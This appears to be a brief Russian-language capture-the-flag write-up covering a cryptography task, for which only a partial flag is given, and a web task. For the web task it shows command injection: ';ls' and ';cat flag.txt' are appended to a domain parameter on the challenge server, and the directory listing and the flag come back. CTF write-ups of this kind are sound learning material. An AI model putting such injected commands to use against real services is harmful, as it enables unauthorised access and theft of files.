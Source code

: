 ### 1 - криптография

Решение в main.py, код шифратора в encrypt
   
Ответ в secrets.txt, правда, кажется, там только часть флага :(

30d6dcd76c15009ab6b03}

### 2 - веб

Пробуем ввести в поле ввода ";ls" - http://seoscan.semrush.work:8080/?domain=%3Bls
   
Results: 
   
BUILDING.txt CONTRIBUTING.md LICENSE NOTICE README.md RELEASE-NOTES RUNNING.txt bin conf flag.txt include lib logs native-jni-lib python-seo-analyzer-4.0.2 python-seo-analyzer-4.0.2.7z temp webapps webapps.dist work 

Вводим ";cat flag.txt" - http://seoscan.semrush.work:8080/?domain=%3Bcat+flag.txt
   
Results:
   
sem{3x3cu73_1s_v3ry_v333333ry_uns4f3} 
